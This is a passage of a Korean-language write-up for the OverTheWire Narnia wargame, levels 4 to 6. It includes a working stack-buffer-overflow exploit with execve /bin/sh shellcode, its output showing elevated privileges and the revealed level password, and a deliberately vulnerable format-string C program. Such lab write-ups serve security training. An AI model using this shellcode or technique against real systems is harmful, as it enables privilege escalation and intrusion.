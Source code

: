 ```
0x08048518 <+109>:   lea    eax,[ebp-0x104] // 260
0x0804851e <+115>:   push   eax
0x0804851f <+116>:   call   0x8048360 <strcpy@plt>
```

<br>

argv[1]의 주소를 gdb로 확인하고 쉘 코드는 ```0xffffd80b```부터 시작함.

<br>

```
narnia4@narnia:/narnia$ ./narnia4 `python -c 'print "\x90"*119+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*120+"\x0b\xd8\xff\xff"'`
$ id
uid=14004(narnia4) gid=14004(narnia4) euid=14005(narnia5) groups=14004(narnia4)
$ cat /etc/narnia_pass/narnia5
faimahchiy
```

<br>

```
password : faimahchiy
```

<br><br>

## Level 5 -> Level 6

<br>

```
ssh narnia5@narnia.labs.overthewire.org -p 2226
```

<br>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
                printf("GOOD\n");
        setreuid(geteuid(),geteuid());
                system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
}
```
